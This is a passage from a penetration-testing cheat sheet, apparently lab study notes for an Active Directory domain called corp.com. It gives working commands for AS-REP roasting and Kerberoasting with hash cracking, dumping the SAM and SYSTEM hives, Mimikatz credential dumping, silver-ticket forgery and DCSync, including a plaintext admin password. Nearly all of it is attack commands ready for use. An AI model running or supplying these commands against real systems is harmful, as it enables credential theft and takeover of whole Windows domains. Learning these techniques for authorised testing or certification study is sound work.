 ```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

**Kerberoasting**

Multi Platform:

* On Kali: `sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete` 
* On Windows: `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`

To crack TGS-REP Hashes: 

```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

### Dump Sam and System

Backup of the SAM and SYSTEM file and then secretsdump to extract the hashes.

```bash
C:\> reg.exe save hklm\SYSTEM C:\SYSTEM.bak
C:\> reg.exe save hklm\SAM C:\SAM.bak
```

```bash
kali@kali: impacket-secretsdump -sam SAM.bak -system SYSTEM.bak LOCAL
```

### Mimikatz

*Mimikatz needs Administrator privileges to run*

[Hacktricks Mimikatz](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

Silver Tickets

1. `privilege::debug`
2. `sekurlsa::logonpasswords`
3. `whoami /user` to retrieve Domain SID
4. `kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin`

`iwr -UseDefaultCredentials http://web04` for iis_service user

**Domain Controller Synchronization**

We need a user that is a member of *Domain Admins, Enterprise Admins, or Administrators groups*.

`lsadump::dcsync /user:domain\user`

With impacket suite: 

```bash
impacket-secretsdump -just-dc-user target_user corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@DC-IP
```
